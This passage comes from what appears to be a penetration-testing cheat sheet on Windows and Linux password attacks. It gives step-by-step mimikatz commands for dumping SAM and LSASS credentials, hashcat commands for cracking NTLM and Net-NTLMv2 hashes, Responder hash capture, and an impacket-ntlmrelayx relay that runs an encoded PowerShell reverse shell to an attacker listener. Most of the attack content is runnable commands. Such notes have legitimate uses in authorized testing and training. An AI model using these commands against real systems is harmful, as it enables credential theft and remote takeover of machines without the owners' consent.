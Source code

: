   ```
- [pth-winexe](https://github.com/byt3bl33d3r/pth-toolkit)
- [Responder.py](https://github.com/SpiderLabs/Responder)

**Notes**
- On most Linux systems, hashed passwords are stored in the `/etc/shadow` file
- On Windows systems, hashed user passwords are stored in the Security Accounts Manager (SAM). Microsoft introduced the SYSKEY feature (Windows NT 4.0 SP3) to deter offline SAM database password attacks
- Windows NT-based systems, up to and including Windows 2003, store two different password hashes: LAN Manager (LM) (DES based) and NT LAN Manager (NTLM), wich uses MD4 hashing
- From Windows Vista on, the operating system disables LM by default and uses NTLM
- In Windows, get all local users in PowerShell with `Get-LocalUser`

### Identify hashes
- [hash-identifier](https://www.kali.org/tools/hash-identifier/)
- [hashid](https://www.kali.org/tools/hashid/)
  - `hashid <HASH>`
- [Hash Analyzer - TunnelsUP](https://www.tunnelsup.com/hash-analyzer/)

### mimikatz
1. `C:\Programs\mimikatz.exe`
2. `privilege::debug` enables the SeDebugPrivilge access right required to tamper with another process
3. `token::elevate` elevate the security token from high integrity (administrator) to SYSTEM integrity
4. `lsadump::sam` dump the contents of the SAM database

### Cracking NTLM
1. Identify the local users with `Get-LocalUser`
2. Run `mimikatz.exe` as an administrator
3. Use the command `privilege::debug` to have `SeDebugPrivilege` access right enabled
4. Use the command `token::elevate` to elevate to SYSTEM user privileges
5. Extract passwords from the system
   - `sekurlsa::logonpasswords` attempts to extract plaintext passwords and password hashes from all available sources
   - `lsadump::sam` extracts the NTLM hashes from the SAM
6. Run `hashcat --help | grep -i "ntlm"` to retrieve the correct hash mode
7. `hashcat -m 1000 user.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

### Cracking Net-NTLMv2 (or NTLMv2)

Capture a Net-NTLMv2 hash
1. `ip a` retrieve a list of all interfaces
2. `sudo responder -I <interface>`
3. Wait for a connection, capture the hash and save it as `user.hash`

Crack the Net-NTLMv2 hash
1. `hashcat --help | grep -i "ntlm"`
2. `hashcat -m 5600 user.hash /usr/share/wordlists/rockyou.txt --force`

Relaying Net-NTLMv2
1. Instead of printing a retrieved Net-NTLMv2 hash, we'll forward it to `<IP>` that it's the target machine
2. `sudo impacket-ntlmrelayx --no-http-server -smb2support -t <IP> -c "powershell -enc <BASE64>"`
   - use it to execute a reverse shell on your machine on port `<PORT>` and run a listener `nc -nvlp <PORT>`
   - see how to encode one-liner in base64 [here](#microsoft-office)
3. Now, if a user tries to connect to our machine with `dir \\<ATTACKER-IP>\test`, it will forward the request to `<IP>` and execute the command specified in the flag `-c`


### Pass-the-Hash
  ```